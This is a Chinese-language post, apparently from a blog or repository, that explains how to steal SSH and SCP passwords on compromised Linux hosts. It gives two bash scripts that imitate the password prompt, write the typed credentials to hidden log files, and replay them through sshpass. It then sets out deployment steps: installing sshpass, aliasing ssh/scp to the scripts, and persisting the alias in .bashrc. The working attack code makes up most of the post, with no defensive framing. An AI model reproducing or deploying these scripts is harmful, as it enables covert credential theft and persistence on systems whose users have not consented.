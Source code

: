 ```yaml
---

layout: default

---
```




# Linux抓取SSH/SCP密码

## 0x01总体思路

​	大体思路是基于Linux的alias别名特性，通过创建ssh/scp的别名修改系统的ssh/scp命令指向自定义的恶意脚本，当用户在执行ssh/scp命令时实际执行的是指定的恶意脚本，脚本将中提示用户输入密码并保存本地，然后再调用系统中正常的ssh/scp命令完成用户指令。（抓密码思路源于klion知识星的分享）

## 0x02 SSH密码抓取

​	先给出脚本：

```shell
#!/bin/bash 
if [ $# != "1" ]		#判断是否只有一个参数 
then
	/usr/bin/ssh 
else
	echo -e "${1}'s password: \c" 
	read -s pass echo $1":"$pass >> /tmp/.log 
	echo "" 
	sshpass -p "$pass" /usr/bin/ssh ${1} 
fi
```

​	脚本中首先判断用户输入的参数是否为1个，其实此处还可以加多一层判断，看用户输入的是否是 `user@ip`的格式，防止用户输入错误地参数脚本同样提示输入密码。

​	根据用户的参数伪造ssh的回显，提示用户输入密码，并记录保存到本地/tmp/.log文件中。

​	最后因为正常调用ssh命令时需要交互式输入密码，所以利用sshpass工具来将密码发送给ssh命令，从而正常执行ssh功能



## 0x03 SCP密码抓取

​	脚本：

```shell
#! /bin/bash
str="@"
for var in $*
do
        if [[ $var == *$str* ]];then
                arr=(${var//:/ })
                echo -e "${arr[0]}'s password: \c"
                read -s pass
                echo $pass >> /root/.log
                echo ""
        fi
done
sshpass -p "$pass" /usr/bin/scp ${*}
```

​	抓取scp密码原理与ssh的是一样的，只是脚本相对来说复杂一点点，因为scp的参数多且位置不固定，所以需要判断`user@ip`参数出现在第几个参数，然后根据该参数的内容来伪造正常的scp输入密码提示。

## 0x04 具体操作

	1. 首先需要在目标机器上安装 `sshpass`工具，可以使用 `yum/apt-get`等包管理工具安装也可以下载源码编译安装。
 	2. 修改目标机器 alias , 比如 `alias ssh=/root/.scp`。可以在.bashrc文件中添加实现持久化抓取。
 	3. 将脚本放到指定的位置。

​	

